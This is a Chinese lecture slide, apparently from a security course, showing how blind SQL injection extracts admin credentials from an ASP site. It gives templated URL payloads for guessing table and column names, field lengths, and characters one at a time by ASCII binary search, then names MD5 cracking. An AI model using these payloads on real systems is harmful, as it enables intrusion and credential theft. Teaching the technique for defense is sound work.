

# 利用SQL注入进行后台口令拆解
猜解后台口令表表名
http://SITE/xxx.asp?some_rec = yyy and (select count (*) from guessed_tbl_name)>0
猜解字段名
http://SITE/xxx.asp?some_rec = yyy and (select Count(guessed_rec_name) from Admin) > 0
猜解字段值: 二分法逼近
字段长度: http://SITE/xxx.asp?some_rec = yyy and (select top 1 len(username) from Admin)> [guessed_length]
字段值: 逐位猜解 http://SITE/xxx.asp?some_rec = yyy  and (select top 1 asc(mid(username,N,1)) from Admin)>[guessed_ascii]
口令可能为MD5散列后的密文
MD5Crack
2022年10月24日
13